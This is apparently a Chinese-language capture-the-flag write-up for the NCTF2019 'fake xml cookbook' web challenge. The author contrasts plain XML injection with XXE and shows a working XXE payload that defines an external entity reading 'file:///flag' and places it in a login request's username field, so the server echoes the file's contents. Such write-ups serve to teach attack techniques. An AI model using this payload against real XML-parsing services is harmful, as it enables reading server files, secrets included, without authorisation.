 ```yaml
---
title: NCTF2019_Fakexml_cookbook
date: 2019-12-27
image: 
description: 南京邮电大学举办的比赛，也是我和队友命运交织的地方。虽然题目做的不多，但是这场比赛深深的影响到了我，让我爱上了web安全
categories: 
- ctf_writeup
tags:
- XXE
---
```


NCTF2019web1:fake xml cookbook_writeup

By:0xfxxker_wh1sper

解题思路：

这道题名字是XML，关于XML我知道的只有两种手段，一是普通XML注入，通过闭合各种标签然后植入恶意代码运行脚本，但是一般这种手段实在攻击者能够掌握password字段并且能够保存到服务器当中去才能够添加一个新的admin账户（当时也在这里卡了很久），还有一种就是XXE(XML External Entity Injection) 全称为 XML 外部实体注入，利用点是外部实体，如果能注入，外部实体并且成功解析的话，这就会大大拓宽我们 XML 注入的攻击面（这可能就是为什么单独说 而没有说 XML 注入的原因吧，或许普通的 XML 注入真的太鸡肋了，现实中几乎用不到）。

用户名，密码随便试一下：

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120164837.png)

抓包，分析:

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120164848.png)

于是我构造了如下XML外部实体，大概是这样

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120164909.png)

注意事项：
```
<?xml version="1.0"?>
<!DOCTYPE dy（这里有一个空格） [
<!ENTITY dy SYSTEM "file:///flag">
]>
<user><username>&dy;（分号）</username><password>123</password></user>
```
通过POST请求发过去

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120164914.png)

服务器说登录失败，并且返回&dy，也就是/flag的内容

这里挂一篇关于xxe的学习文档：http://url.cn/54Ucm5w
